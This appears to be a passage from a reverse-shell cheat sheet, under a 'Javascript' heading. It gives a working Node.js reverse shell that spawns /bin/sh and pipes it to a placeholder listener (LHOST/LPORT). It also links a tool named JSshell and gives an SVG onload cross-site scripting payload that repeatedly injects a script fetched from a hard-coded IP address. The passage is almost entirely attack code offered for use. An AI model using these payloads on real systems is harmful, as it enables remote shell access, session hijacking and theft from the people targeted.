 # Javascript
```
(
  function(){
    var net = require("net"), cp = require("child_process"), sh = cp.spawn("/bin/sh", []);
    var client = new net.Socket();
    client.connect(LPORT, "LHOST", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
     });
    return /a/;
  }
)();
```
#### Javascript shell creator
[JSshell](https://github.com/shelld3v/JSshell) 
```
<svg/onload=setInterval(function(){with(document)body.appendChild(createElement("script")).src="//171.224.181.106:4848"},999)>
```
